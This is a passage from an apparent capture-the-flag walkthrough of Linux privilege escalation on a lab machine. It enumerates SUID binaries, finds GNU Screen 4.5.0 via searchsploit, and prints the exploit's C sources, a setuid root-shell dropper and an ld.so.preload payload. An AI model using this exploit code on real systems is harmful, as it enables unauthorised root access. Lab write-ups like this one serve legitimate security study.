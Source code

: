 ^Z

``` bash
stty raw -echo; fg
```

### Binaries That AutoElevate

``` bash
www-data@straylight:/tmp$ find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/umount
/bin/mount
/bin/screen-4.5.0
/bin/ping
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
www-data@straylight:/tmp$
```

### GNU Screen 4.5.0 exploit

``` bash
┌──(Hades㉿192.168.56.110)-[1.4:23.7]~
└─$ searchsploit screen 4.5.0
--------------------------------------------------------- ---------------------------------
 Exploit Title                                           |  Path
--------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation            | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)      | linux/local/41152.txt
--------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

At `/tmp` in the unix machine, I create 2 file `libhax.c` `rootshell.c`

``` bash
www-data@straylight:/tmp$ ls
libhax.c  priescal  rootshell.c  screens
www-data@straylight:/tmp$ cat libhax.c rootshell.c 
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
www-data@straylight:/tmp$
```
